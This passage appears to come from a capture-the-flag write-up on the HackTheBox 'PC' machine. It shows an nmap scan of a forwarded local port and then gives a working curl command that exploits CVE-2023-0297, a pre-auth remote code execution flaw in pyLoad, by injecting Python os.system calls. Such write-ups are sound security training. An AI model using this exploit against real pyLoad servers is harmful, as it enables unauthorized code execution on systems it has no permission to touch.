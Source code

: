 Now Lets access that page on 127.0.0.1:8000 and lets try to Nmap it lets see if it is open now or not →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/PC]
└─$ sudo nmap -p 8000 127.0.0.1                     
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-22 23:44 IST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000052s latency).

PORT     STATE SERVICE
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 0.16 seconds
```
{: .nolineno}

Since it is open Now so lets see what we got here →

![Untitled](/Vulnhub-Files/img/PC/Untitled%2010.png)

I searched exploit related to pyload and I got this →

[https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://<target>/flash/addcrypted2'
```
{: .nolineno}
